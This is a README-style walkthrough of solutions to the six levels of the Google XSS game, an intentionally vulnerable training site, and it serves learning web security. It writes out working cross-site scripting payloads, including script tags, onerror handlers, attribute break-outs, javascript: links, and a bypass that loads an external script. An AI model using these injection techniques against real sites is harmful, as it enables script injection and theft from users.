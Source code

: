 # GoogleXSSGame
Solutions to the Google XSS game. I've put in notes on any tricks or thoughts I had while doing this, so hopefully this helps if (like me) this is the first time you are doing something like this.

Warning, contains spoilers so be careful if you are playing the games. 

##Challenge 1
We are presented with a simple text entry box on a website. A quick check shows that the text box does no filtering or validation and creates a URL link with exactly what is written in to it.
This means we can inject an HTML elemnt straight away. The easiest element to inject is:
```HTML
<script>alert("Winner!")</script>
```
Enter this directly in to the textbox and you should be fine.
Alternately, you can enter this as part of the URL:
```HTML
https://xss-game.appspot.com/level1/frame?query=<script>alert("Winner!")</script>
```

##Challenge 2
We now have a blog type website, where we can enter text that gets displayed as a new entry. 
Entering our solution from Challenge 1 simply creates a new blog post with our entry in the `<blockquote>` tags. We know that this won't work for us. Instead of a direct injection, let's try an error injection to see if we can abuse JavaScript a little bit. Using the `img` tag, let's see if we can use an `onerror` as suggested in the hints:
```JavaScript
<img src="this.gif" onerror=alert("Winner!") />
```
If you enter this as your new blog post, you should see the alert pop up and show that you have outsmarted it. 

##Challenge 3
Looking at how we can manipulate this, we see that the only place we can inject a new element is directly into the URL bar. Taking a look at the JavaScript running here, we can see that this is where the input into the URL bar is processed:
```JavaScript
<script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(self.location.hash.substr(1) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(self.location.hash.substr(1));
        }
      }, false);
    </script>
```
The `chooseTag(num)` function is where the input is processed, so let's see if we can abuse this. This function is going to insert an HTML element with a title and the picture link. Interestingly, the title part has the `num` input being passed through a `parseInt(num)` function, but the link to the picture does not. We know that we cannot inject anything here, as the `parseInt(num)` function will just return a NaN response. However, looking at the next line, we see that the `num` parameter is simply used there without being tested or escaped. This looks like a great place to break in.

If we insert a `1` as the `num` parameter, we expect the website to operate as usual. However, if we can manipulate what is inserted here, we could potentially cause an injection like we did in the previous challenge. Looking at the like that sources the `img` in the JavaScript, let's make it look like this:
```HTML
<img src="/static/level3/cloud1" onerror="alert("Winner!")/>
```
To do this, we just needed to add the input `1' onerror='alert("Winner!")'/>` to the URL.
I found that this doesn't work in Firefox as firefox seems use URL encoding to replace the ' and " symbols. I'm not 100% sure why, but Chrome doesn't do this.

##Challenge 4
Let's take a look at what we have here. We have a freetext box (that takes anything) which kicks off a timer to display a message. The box functions correctly when we put in a number and anything else just causes the spinner to keep going and going and going. Looking at what happens when we press the button, we see that we put a call to the `startTimer()` function and then draw the spinner using the `onload` feature of an image. This looks like a fantastic place to try break.

The HTML element that is draw looks like this for an input of 60:
```HTML
<img src="/static/loading.gif" onload="startTimer('60');">
```
We want to manipulate it to look like this:
```HTML
<img src="/static/loading.gif" onload="startTimer(''); alert('Winner!');">
```
So we can simply insert the string `'); alert('Winner!'` into the textbox to break it.

##Challenge 5

Here we have a very simple web app that will grab an input email address and sign it up for a service. Looking at the code running on the site, you can see that although there is a nice textbox that looks like it will be a great place to break in, nothing in actually done with the text input. However, looking at the scripting here, we see that on each page the next page is displayed in the URL. Looking closer, whatever is put in this URL is passed through a decision tree and eventually ends up as an `href` HTML link. Now this looks like something we can use.

The easiest thing to do here would be to create a fake link and an onClick event, similar to what we would have done before. The name of the challenge is "Breaking protocol" though, so maybe there is another way. The `href` tag actually allows us to insert a JavaScript function in place of a link and this sounds like something we can abuse nicely.
A little bit of playing around shows that we can insert this:
```HTML
javascript:alert("Winner!")
```
This will then turn the link that is created into a starter for the JavaScript function which will display the alert.

##Challenge 6
Time for the last bit of this game. We now want to load an external JavaScript file into the site. With this, it means we can do all sorts of naughty things. From what we have done before, we can see that the URL attack is the way to go. The parameter `frame#` serves as a placeholder for whatever script we want loaded into the service. The service will attempt to retrieve this as part of the normal scriptloading process in the `head` section of the HTML.

Before we start trying to get a file loaded, we need to have a file to load. I don't have my own server running where I can host the file so I'm going to go with the hint of using the google.com/jsapi service. If we navigate to http://www.google.com/jsapi?callback=foo, we see a very long file that ends in `foo();`. With a bit of guesswork, we can see that if we use the parameter `callback=alert` we will get back a JavaScript file which contains the line `alert();`. This should be exactly what we want.

Putting the link `http://www.google.com/jsapi?callback=alert` directly into the URL of the website, we now trigger a warning that says that we cannot use some containing the http:// string. Looking at the piece of the website that triggers this warning, we see that it is quite a simple validator that specifically looks for the string "http://...". Perhaps we could get past this by simply not putting the "http:" part into our link?

```HTML
//www.google.com/jsapi?callback=alert
```
This gets past the validator and loads the JavaScript file that we looked at earlier. 

#Conclusion
If you are reading this and know of any other similar challeneges, please let me know.
